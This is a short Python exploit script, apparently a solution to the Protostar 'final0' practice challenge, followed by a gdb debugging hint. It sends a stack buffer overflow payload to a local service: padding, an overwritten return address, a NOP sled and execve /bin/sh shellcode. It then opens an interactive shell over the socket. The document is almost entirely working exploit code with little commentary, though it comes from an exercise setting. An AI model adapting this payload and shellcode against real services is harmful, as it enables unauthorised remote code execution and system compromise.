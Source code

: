 import socket
import struct
import time
import telnetlib

HOST="127.0.0.1"
PORT=2995

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

eip = struct.pack("I", 0xbffffc60+10)
nopsled = "\x90" * 100
exploit     = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
payload = "A" * 512 + "\x00"  + "bbbccccddddeeeeffff" + eip + nopsled + "gggghhhhh" + exploit
s.send(payload + "\n") # "\n" indicates that transmission is over if not server is still waiting for more stuff
#s.send("id")
#data = s.recv(2048) # end every payload you send with "\n" if not you will not receive anything and the function will be stuck here as it is waiting for the server to respond while the server is waiting for the end of the transmission most likely indicated by "\n"
#print "Received: ", data

t = telnetlib.Telnet()
t.sock = s
t.interact()

debug using `gdb /opt/protostar/bin/final0 /tmp/CORE_DUMP_FILE`

